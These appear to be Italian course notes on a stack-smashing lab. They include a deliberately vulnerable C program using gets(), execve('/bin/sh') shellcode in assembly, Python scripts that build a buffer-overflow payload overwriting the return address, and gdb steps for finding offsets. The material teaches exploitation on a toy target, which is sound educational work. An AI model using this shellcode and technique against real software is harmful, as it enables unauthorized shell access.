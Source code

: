 ```yaml
---
id: '11'
lezione: "20231102"
title: "Memory error exploits - Smashing the stack - Esercizi"
author: "Sam. Kaluwaduge"
keywords: 
---
```


<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Memory error exploits - Smashing the stack - Esercizi"

## Esercizio 1
~~~c
#include <stdio.h>
// Task: stampare "You Win!"
// Senza sapere l'indirizzo di buf
int main(){
    int cookie;
    char buf[80]; // abbiamo bug e cookie invertiti

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    // Inoltre entrare qua dentro è difficile anche usando la tecnica del lez 10,
    // è difficile perché ci sono caratteri come \x00 \x0a (null, newline) sono difficile da inserire dentro lo stack tramire input di gets()
    // anche se riusciamo ad entrare è inutile perché dice "you loose"
    // tecnica da usare "shellcode"
    if(cookie == 0x000d0a00) 
        printf("You Loose!\n");

    return 0;
}
~~~
## Passi per risolvere il problema
1. Compilare il programma C `gcc -g -z execstack -fno-stack-protector -o ex1.out ex1.c`
2. Compilare Shellcode (assembly) `gcc -nostdlib -static -o shellcode.out shellcode.s` ed estrarre la parte di codice **`objcopy -O binary --only-section=.text shellcode.txt shellcode.out`**. 
3. Creare un payload per calcolare l'offset per arrivare a return address. 
4. Trovare l'indirizzo del buffer a partire dal payload di prima.
5. Creare un secondo payload integrando il shellcode creato in precedenza e return address all'inizio del nostro buffer.

### Preparare un shellcode?
[shell-storm per trovare shellcode](https://shell-storm.org/shellcode/index.html)

* Usiamo una shellcode che chiama una shell `/bin/sh` tramite una `syscall` di tipo `execve`.

```s
# Linux/x86_64 execve("/bin/sh"); 30 bytes shellcode
# Date: 2010-04-26
# Author: zbt
# Tested on: x86_64 Debian GNU/Linux

# execve("/bin/sh", ["/bin/sh"], NULL)

.intel_syntax noprefix
.global _start
.section .text

_start:
    xor     rdx, rdx
    mov     qword rbx, 0x68732f6e69622f2f # '//bin/sh'
    shr     rbx, 0x8
    push    rbx
    mov     rdi, rsp
    push    rax
    push    rdi
    mov     rsi, rsp
    mov     al, 0x3b # syscall execve
    syscall
```
**IMPORTANTE**:
* `//bin/sh` perché riuscire ad aprire una shell significa che posso fare quasi tutto. 
* Uso doppoio slash `//bin/sh` per crearmi la fine della stringa (una stringa deve avere `\x00` per segnalare dove termina), per questo dopo uso `shr rbx, 0x8` shifto di 8 bit a destra che crea un byte `00` a sinistra (perché siamo in little-endian).
* Questo lo faccio dentro lo stack perché quando il programma legge con `gets()` oppure con `scanf()` l'input appena trova un byte di tipo `\x00` oppure `\x0a` smette di leggere, quindi l'input che madiamo con shellcode non può contentere `\x00` oppure `\x0a`. Questo vuol dire che lo dobbiamo crearlo indirettamente.  
* Bisogna prendere solo la parte `.text` del codice:
  
  `objcopy -O binary --only-section=.text <input> <output.txt>`.
### Come fa un antivirus capire che è un shellcode?
Capire se un file binario è un shell code: `strings <code.text>` stampa la parte leggibile del file binario. Quindi, trovare una stringa che porta a /bin/shell dice che è probabilmente è un shellcode.

### Trovare Return Address - secondo convenzioni
Come faccio trovare RA? so che la variabile `buf` è di 80 bytes (perché `char buf[80]`) e poi c'è la variabile `cookie` quindi altri 4 byte (int cookie 4 bytes) da cui devo arrivare all'indirizzo di ritorno `RA`. Io so che ò'istruzione `ret` fa pop dallo stack l'indirizzo di memoria dove è allocato prossima l'istruzione. 
* Metodo semplice: 
  * riempio il buffer con 80 valori `A*80` e poi altri valori come `AAAABBBBCCCCDDDD` che ripetono 4 volte (perché quando visualizziamo ci fa vedere 4 byte alla volta che semplifica il conteggio)
  * controlliamo con un breakpoint (in gdb) all'istruzione `ret` cosa abbiamo in dentro il `rsp`. In questo modo posso calcolare quanti byte ci sono dal buffer al RA.
    * Per settare il breakpoint all'istruzione `ret` di `main` faccio `disas main` e `break main+<number>` nel mio caso `break *main+87`.

NOTE: per settare breapoint ad un indirizzo preciso bisogna usare `*`. es. `break *main+87` dove `main` è un label, oppure `break *0x1234abcd` indirizzo diretto.

Per trovare l'indirizzo oppure l'offset fino all'istruzione `ret` uso `disas main` il quale disassebmla la funzione main.

![Disassemble main](assets/images/disas%20main.png)

#### Il payload per trovare RA

```py
# Creo un payload
with open('payload','wb') as f: # 'wb' write bytes
    f.write(b'\x90'*80)
    f.write(b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII')
    
print("Payload created!")
```
Per avviare in gdb il programma con il payload `run < payload.txt`

**IMPORTANTE**: La funzione che chiama `call` alla funzione `main` del nostro programma `C` è **`libc_start_main`**, quindi quando `main` fa `ret` "presumibilmente" ritorna a `libc_start_main`.

Adesso controlliamo lo stack pointer all'istruzione `ret` e notiamo che nel `rsp` abbiamo una parte del nostro payload `0\x47` e `\x48` cioè la `GGGG` e `HHHH`.

Quindi da questo capiamo che ci serve una stringa lunga `80 + 6*4 = 104` byte per arrivare al return address. (`6*4 = "AAAABBBBCCCCDDDDEEEEFFFF"` ci fermiamo prima di "`GGGG`").

![RA position](assets/images/return%20address%20position.png)

**Quindi payload è fatto da 80 byte per istruzioni 24 byte casuali seguito da l'indirizzo dell'inizio buffer.**

#### Come troviamo l'indirizzo del buffer? 
Si inserisce una stringa particolare e controlliamo dove inizia dentro lo stack.

![Indirizzo del buffer](assets/images/indirizzo%20del%20buffer.png)

Controllando i valori nello stack in `gdb` (in questo caso siamo all'istruzione `ret`) troviamo che abbiamo una sequenza di 80 `\x90` che rappresenta l'input che abbiamo immesso al buffer. Quindi l'indirizzo del buffer è `0x7fffffffddb8+8 = 0x7fffffffddc0`. Infatti il printf all'inizio aveva stampato

![Printf indirizzo buf](assets/images/prinf%20indirizzo%20buf.png)

`x/64x $rsp-128 ` permette di visualizzare 64 byte in esadecimale dello stack a partire dallo $rsp-128.

NOTE: Usiamo l'istruzione `nop` per mettere un offset dentro il buf (per eivtare di fare conti con indirizzi).

#### Payload finale per l'attacco vero e proprio
```py
shellcode = ""

with open('shellcode.txt','rb') as f:
    shellcode = f.read()

with open('payload2','wb') as f:
    f.write(b'\x90'*8)
    f.write(shellcode)
    f.write(b'\x90'*(80-8-len(shellcode)))
    f.write(b'AAAABBBBCCCCDDDDEEEEFFFF')
    f.write(b'\xc0\xdd\xff\xff\xff\x7f') # 0x7f ff ff ff dd c0 insert address in bytes (little-endian)
    f.close()

print("Payload created!")
```

`gcc -z execstack` permette di avviare il codice (istruzioni assembly) dallo stack.

**IMPORTANTE**: In gdb settare **`set follow-exec-mode new`** permette di avviare altri programmi a partire dal programma che stiamo debuggando, in questo modo fa debugging anche del nuovo proggramma. (dopo che programma principale termina fare `run` per avviare il secondo programma)

![You win](assets/images/buffer%20overflow%20shellcode%20you%20win.png)

`ghidra` per decompilare un programma C già compilato.

`checksec <file_binario>` permette di determinare le protezioni sicurezza abilitati nel file binario (programma compilato).

## Esercizio 2 - buffer molto piccolo
```c
#include <stdio.h>

int main(){
    int cookie;
    char buf[4];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if(cookie == 0x000d0a00)
        printf("You Loose!\n");

    return 0;
}
```
